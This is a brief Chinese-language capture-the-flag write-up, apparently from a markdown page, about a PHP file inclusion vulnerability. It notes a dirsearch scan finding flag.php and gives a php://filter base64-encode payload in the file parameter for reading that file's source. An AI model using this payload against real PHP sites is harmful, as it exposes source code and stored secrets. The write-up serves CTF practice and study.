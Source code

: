 ![img](./assets/wps342.jpg)

文件包含漏洞

dirsearch扫描目录

![img](./assets/wps343.jpg) 

存在flag.php文件

构造payload：

?file=php://filter/read=convert.base64-encode/resource=flag.php

![img](./assets/wps344.jpg) 

 

![img](./assets/wps345.jpg) 

 

 